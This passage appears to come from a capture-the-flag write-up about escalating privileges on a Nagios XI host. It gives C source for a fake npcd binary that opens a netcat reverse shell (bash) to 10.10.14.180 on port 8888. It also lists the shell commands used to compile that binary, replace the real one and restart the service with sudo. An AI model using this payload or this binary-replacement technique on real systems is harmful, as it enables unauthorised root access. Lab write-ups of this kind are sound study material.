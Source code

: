 - Now it's easy. We just have to replace the `ncpd` file at `/usr/local/nagios/bin/`
with our malicious one (first off, we need to stop that service)

- Payload:

```
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
    for(int i = 1; i < argc; i++) {
        if(strcmp(argv[i], "-f") == 0) {
            if(i + 1 < argc) {
                i++;
            }
        }
    }
    char *args[] = {"nc", "10.10.14.180", "8888", "-e", "/usr/bin/bash", NULL};
    execvp("nc", args);
    perror("execvp");
    return 1;
}
```

- Compile it and move it to `/usr/local/nagios/bin`:

```
nagios@monitored:~$ gcc exploit.c -o npcd
nagios@monitored:~$ mv /usr/local/nagios/bin/npcd /usr/local/nagios/bin/npcd.bak
nagios@monitored:~$ cp npcd /usr/local/nagios/bin/npcd
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```

![img_10.png](img/img_10.png)

---